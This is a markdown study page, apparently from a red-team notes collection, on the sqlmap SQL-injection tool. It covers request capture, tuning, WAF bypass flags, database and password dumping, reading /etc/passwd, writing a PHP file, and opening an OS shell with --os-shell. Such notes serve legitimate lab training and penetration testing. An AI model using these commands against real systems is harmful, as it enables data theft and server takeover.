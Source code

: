 # SQLMap

[![sqlilab](../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![sqlmapessentials](../../../_badges/htb/sqlmapessentials.svg)](https://academy.hackthebox.com/course/preview/sqlmap-essentials)

<div class="row row-cols-md-2"><div>

[sqlmap](https://github.com/sqlmapproject/sqlmap) <small>(29.4k ⭐)</small> is a tool to detect and automatically exploit [SQLi](/cybersecurity/red-team/s3.exploitation/vulns/injection/sql.md). While it may perform just fine out of the box, we will have to configure it adequately for complex targets to avoid false negatives.

To ensure the request <small>(GET/POST/PUT/...)</small> is correct, we usually capture it using a tool such as [Burp Intruder](burp.md) or from a web browser network tab, by right-clicking on the request and selecting `Copy value as cURL`.  This ensures headers and cookies are properly configured.
</div><div>

**Where to learn?** 🎓

* [Official Documentation](https://github.com/sqlmapproject/sqlmap/wiki/Usage) (📚)
* [SQLMap CheatSheet](https://www.daronwolff.com/sqlmap-cheetsheet/) (2020)
* [SQLMap CheatSheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet) (2017)
</div></div>

<hr class="sep-both">

## Basic Overview

<div class="row row-cols-lg-2"><div>

To use the tool, we must first find a potentially vulnerable form/URL.

```ps
$ sqlmap -u example.com/?id=1 [...]              # GET
$ sqlmap -u example.com --data="id=1&p=0" [...]  # POST
$ sqlmap -u example.com --data-raw "id=1" [...]  # POST (cURL)
$ sqlmap -u URL --data="id=1" --method PUT [...] # PUT
$ sqlmap [...] -H 'Cookie: id=1' # add a header
$ sqlmap [...] --cookie='id=1'   # add a cookie
# see also: --host, --referer, -A/--user-agent, --mobile
```

After that, the tool will ask us a few questions to configure itself. We can skip them and use default values using `--batch`.

```ps
$ sqlmap [...] --batch
```

If there is a SQLi vulnerability, you can [try to exploit it](#sqlmap-exploitation).
</div><div>

**Configuration** 🐍️

* `--parse-errors`: display DBMS errors in sqlmap output
* `-t /tmp/log.txt`: save sqlmap traffic to a file
* `-v n`: set the verbosity (0-6)
* `--threads n`: use $n$ threads
* `--flush-session`: clear cache

**Security by-pass** 🔏

* `--random-agent`: by-pass some WAF/...
* `--csrf-token="xxx"`: indicate a non-standard CSRF cookie
* `--randomize=xxx`: randomize values for parameter `xxx`
* `--eval="xxx=5"`: python code to compute parameter `xxx`
* `--chunked`: split the request in chunks <small>(if supported, e.g. ASP)</small>
</div></div>

<hr class="sep-both">

## SQLMap Tuning

<div class="row row-cols-lg-2"><div>

#### Explicit Vulnerable Parameters

You can specify which parameters are likely to be vulnerable using `-p` or by adding `*` after the parameter value.

```ps
$ sqlmap [...] -p id
$ sqlmap [...] --data "id=1*" # same
```

<br>

#### Explicit DBMS

You can use `--dbms=some_dbms` to explicitly inform sqlmap that you know the DBMS. Example value: `sqlite`.

<br>

#### Select SQLi Techniques

You can define which SQLi technique sqlmap will try:

```ps
$ sqlmap [...] --technique=BEU # Boolean Error Union
```
</div><div>

#### Vectors And Boundaries

Every payload is the concatenation of a vector and a boundary <small>(prefix+suffix)</small>. For instance, `<vector>-- -` with `-- -` the suffix. 

```ps
$ sqlmap [...] --prefix="" --suffix="-- -" # example
```

To increase the set of vectors/boundaries tested, we use `--level`:

```ps
$ sqlmap [...] --level 5 # from 1 to 5, default 1
```

We may also increase the number of vectors/boundaries tested by increasing the risk of database entry loss or other problems.

```ps
$ sqlmap [...] --risk 3 # from 1 to 3, default 1
```

⚠️ Risky situations are when the SQL is using an Update/Delete.
</div></div>

<hr class="sep-both">

## SQLMap Exploitation

<div class="row row-cols-lg-2"><div>

#### Dumping Information

The may want to get some data before dumping the database.

```ps
$ sqlmap [...] --dump [...]
```

We also have switches for [well-known queries](https://github.com/sqlmapproject/sqlmap/blob/master/data/xml/queries.xml):

* `--banner`, `--hostname`: host information
* `--dbs`, `--current-db`: display all databases
* `--schema`: database schema
* `--column`: display columns
* `--column`: display columns
* See also: `--passwords`, `--is-dba`, `--current-user`

We can search for tables/columns using `--search`:

```ps
$ sqlmap [...] --search -T user # tables "*user*"
$ sqlmap [...] --search -C pass # columns "*pass*"
```

📚 See also the switch `--all`.

<br>

#### Read/Write files

It's possible to use SQLi to [read/write files](/cybersecurity/red-team/s3.exploitation/vulns/injection/sql.md#sqli-filesystem-attacks). This privilege is often only allowed to the DBA (`--is-dba/--secure-file-priv`).

```ps
$ sqlmap [...] --file-read "/etc/passwd"
$ sqlmap [...] --file-write "xxx.php" --file-dest "/tmp/xxx.php"
```
</div><div>

#### Dumping Records

The most common usage is to dump data.

```ps
$ sqlmap [...] --dump [...]
```

As this may involve a lot of data, we often fine-tune the extraction:

* `-D xxx`: only keep database `xxx`
* `-T xxx`: only keep table `xxx`
* `-C xx, yy`: only keep columns `xx`, and `yy`
* `--start=n`/`--stop=m`: rows to select (`[n,m]`)
* `--where="attr LIKE '%'"`: filter rows

👉 You can use `--dump-all` to dump everything in the database, but you might also want to use `--exclude-sysdbs`.

⚠️ Add `--no-cast` to ensure the values are the correct ones.

📚 You can select the dump format using `--dump-format`.

<br>

#### Operating System Shell

If we can upload files, we can use sqlmap to pop a remote shell.

```ps
$ sqlmap [...] --os-shell
```

We may have to set the technique manually to ease sqlmap job.
</div></div>

<hr class="sep-both">

## Random Notes

<div class="row row-cols-lg-2"><div>

#### Load Request From A File

Assuming you caught a request, such as below:

```ps
$ cat request1.req
HTTP / HTTP/1.0
Host: www.example.com

{
  "id": 1
}
```

You can load it inside sqlmap using `-r`:

```ps
$ sqlmap -r /path/to/request.req [...]
```

👉 See also: [Burp Intruder](burp.md) <small>(save a request using "Save Item")</small>.
</div><div>

#### Using A Proxy

The following options might be handy:

* `--proxy="value"`: use a proxy for requests
* `--proxy-file`: use a list of proxies
* `--tor`: try to use TOR Socks proxy
* `--check-tor`: test if TOR is correctly configured

#### Uncommon Techniques Switches

* `--code=200`: use status code for "YES" in boolean-based attacks
* `--titles`: use diff in titles for boolean-based attacks
* `--string=xxx`: use this string for "YES" in boolean-based attacks
* `--text-only`: remove all HTML and compare the text content
* `--union-cols=n`: increase the likelihood of a successful union-based attack by explicitly adding the number of columns (guess/...).
* `--union-char='a'`: dummy value for union
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Automatic parameter finding

* `--crawl`
* `--forms`
* `-g`
</div><div>
</div></div>
